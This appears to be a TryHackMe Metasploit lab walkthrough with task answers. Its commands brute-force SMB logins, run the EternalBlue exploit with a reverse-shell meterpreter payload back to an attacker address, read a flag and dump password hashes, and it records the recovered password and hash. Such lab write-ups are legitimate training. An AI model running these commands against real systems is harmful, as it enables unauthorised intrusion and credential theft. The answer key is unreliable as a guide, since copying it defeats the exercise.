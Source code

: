 # THM - Metasploit: Exploitation

<br>

```shell
msfconsole
```

## Task 2

### Task 2.1

```shell
mkdir nmap
nmap -A -oN nmap/initial -p- 10.10.210.94
```

or:
```shell
(msfconsole:)
	search portscan
	use auxiliary/scanner/portscan/tcp
		show options
		set RHOSTS 10.10.210.94
		run
```

> 5

### Task 2.2

nmap or:
```shell
(msfconsole:)
		back
	search netbios
	use auxiliary/scanner/netbios/nbname
		show options
		set RHOSTS 10.10.210.94
		run
```

> ACME IT SUPPORT

### Task 2.3

nmap or:
```shell
(msfconsole:)
		back
	search http_version
	use auxiliary/scanner/http/http_version
		show options
		set RHOSTS 10.10.210.94
		set RPORT 8000
		run
```

> webfs/1.21

### Task 2.4

```shell
(msfconsole:)
		back
	search smb_login
	use auxiliary/scanner/smb/smb_login
		show options
		set RHOSTS 10.10.210.94
		set SMBUser penny
		set PASS_FILE ./MetasploitWordlist.txt
		run
```

> leo1234

<br>

## Task 4

### Task 4.1

```shell
(msfconsole:)
		back
	search SMTP type:auxiliary
	info auxiliary/scanner/smtp/smtp_relay
```

> Campbell Murray

<br>

## Task 5

```shell
nmap -A -oN nmap/initial2 -p- 10.10.167.139
```

🧰 https://www.maketecheasier.com/find-open-files-using-command-prompt-windows/#:~:text=Searching%20for%20files%20and%20folders,of%20the%20name%20you%20remember.

```shell
(msfconsole:)
	search MS17-010
	use exploit/windows/smb/ms17_010_eternalblue
		show options
		set RHOSTS 10.10.167.139
		set LHOST 10.14.27.197
		show payloads
		set payload payload/windows/x64/meterpreter/reverse_tcp
		run
			
			shell
				dir "\flag.txt" /s
				type C:\Users\Jon\Documents\flag.txt
```

### Task 5.2

> THM-5455554845

### Task 5.3

```shell
(msfconsole:)	
			hashdump
```

> 8ce9a3ebd1647fcc5e04025019f4b875

<br>

## Task 6

### Task 6.6

> 

<br>

